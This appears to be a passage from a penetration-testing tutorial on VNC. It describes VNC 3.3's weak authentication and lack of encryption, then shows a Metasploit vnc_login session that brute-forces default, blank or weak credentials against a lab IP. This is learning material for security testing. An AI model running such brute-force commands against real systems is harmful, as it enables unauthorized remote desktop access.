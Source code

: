 It mainly works on client-server archeitecture, i.e both client and server to need to have vnc service installed. It was mainly designed and worked for linux environment. While windows mainly uses RDP(remote desktop protocol) to remote desktop access. There are various software client for the vnc protocol like ultraVNC, RealVNC, TightVNC etc.
### Identifying Vulnerabilites or Weakness
1. **Weak Authentication Mechanism** VNC 3.3 uses a weak challenge-response authentication, making it vulnerable to **brute-force attacks**. Given the lack of security hardening in early VNC versions, an attacker can potentially capture VNC traffic and brute-force credentials.

2. **No Encryption** VNC 3.3 does not support encryption natively. This means that data, including keystrokes and authentication data, is transmitted in plaintext. Attackers with network access can use tools like Wireshark to capture and analyze this traffic.
### Exploitation
##### Bruteforce attack for default or weak crudential
We can peroform the bruteforce attack using tools like metasploit and hydra, and check if it uses the default or weak crudential.
```
msfconsole -q
msf > search vnc_login
msf > use /auxiliary/scanner/vnc/vnc_login
msf auxiliary(scanner/vnc/vnc_login) > show options
msf auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/vnc/vnc_login) > set Anonymous_login true
msf auxiliary(scanner/vnc/vnc_login) > set Blank_passwords true
msf auxiliary(scanner/vnc/vnc_login) > set Username true
msf auxiliary(scanner/vnc/vnc_login) > set Stop_on_success true
msf auxiliary(scanner/vnc/vnc_login) > run
```
![](../images/bruteforcing_vnc_login_1.png)